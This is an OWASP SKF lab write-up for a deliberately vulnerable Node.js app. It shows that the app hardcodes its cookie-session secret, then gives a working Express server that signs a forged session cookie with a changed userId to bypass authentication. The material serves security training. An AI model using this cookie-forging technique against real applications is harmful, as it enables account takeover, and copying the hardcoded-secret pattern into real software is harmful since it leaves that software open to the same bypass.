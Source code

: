 # Authorization Bypass

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-auth-bypass
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-auth-bypass
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Let's login with admin/admin.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/1.png)

Once we login we see an API key.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/2.png)

Let's have a look at the source code:

```javascript
app.all("/login", (req, res) => {
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  const api = "SELECT * FROM preferences WHERE UserId = ?";
  if (req.method === "POST") {
    db.get(sql, [req.body.username, req.body.password], (err, row) => {
      if (row) {
        req.session.userId = row.UserId;
        req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
        req.session.loggedIn = true;
        db.get(api, [req.session.userId], (err, row) => {
          res.render("home.ejs", { api: row.API_key });
        });
      } else {
        res.render("index.ejs");
      }
    });
  } else {
    db.get(api, [req.session.userId], (err, row) => {
      res.render("home.ejs", { api: row.API_key });
    });
  }
});
```

We can see the cookie session secret is exposed, now we can try to recreate this application cookie implementation to be able to recreate a cookie to bypass the authentication.

## Exploitation

We can start building our malicious server.

```javascript
const cookieSession = require("cookie-session");
const express = require("express");
const cookieParser = require("cookie-parser");
const app = express();

app.use(express.static(__dirname));
app.use(cookieParser());
app.use(
  cookieSession({
    name: "session",
    keys: ["e5ac-4ebf-03e5-9e29-a3f562e10b22"],
    httpOnly: false,
    maxAge: 86400000,
  })
);

app.get("", (req, res) => {
  req.session.userId = 2; // CHANGED THE USER ID
  req.session.secret = "e5ac-4ebf-03e5-9e29-a3f562e10b22";
  req.session.loggedIn = true;
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () =>
  console.log(`Listening on port ${port}...!!!`)
);
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express ejs cookie-session cookie-parser
```

Save the following snippet code into /views/evil.js

```html
<p>The newly created cookie for doing the bypass:</p>
<script>
  alert(document.cookie);
</script>
```

We are ready to start our server:

```text
$ node evil_server.js
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/3.png)

Now we can replace our original cookie with the tampered cookie.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/4.png)

Refresh the page:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Auth-Bypass/5.png)

## Additional sources

{% embed url="https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/04-Testing_for_Bypassing_Authentication_Schema" %}
